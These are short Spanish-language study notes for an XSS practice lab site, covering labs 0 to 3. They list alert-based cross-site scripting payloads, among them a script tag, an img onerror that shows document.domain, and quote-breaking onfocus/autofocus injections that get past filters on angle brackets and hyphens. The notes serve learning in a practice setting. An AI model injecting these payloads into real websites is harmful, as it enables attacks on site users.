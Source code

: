 # XSS Lab

Tags: #XSS #Challenges

```bash
# En estos laboratorios debemos de mirar el inspector y el código fuente de la web para saber que debemos ir haciendo. Nos ayuda a practicar y como ir evadiendo en el codifo fuente 
```

* [Ejercicios-XSS](https://sudo.co.il/xss/)
## Lab 0

```javascript
<script>alert("XSS")</script>                 // Script basico 
<img src/onerror=alert(document.domain)>      // Para que nos regres el dominio del sitio web 
```

## Lab 1

```javascript
// Debemos de cerrar el campo valor e inyectar el codigo 

"><script>alert("XSS")</script>"              // Debemos de cerrar el campo 'valor' para poder inyectar codigo JavaScript
" onfocus="alert(1)" autofocus="              // Otra manera de colocar alert 
```

## Lab 2 

```javascript
// Cuando el codigo esta sanitizado, a veces no deja que coloquemos '< o >' por lo que debemos buscar otra manera de colocar alert

" onfocus="alert(1)" autofocus="          
```

## Lab 3 

```javascript
// En este lab nos colocan un guion '-' como forma de sanitizar 

"onfocus="alert(1)" autofocus="
```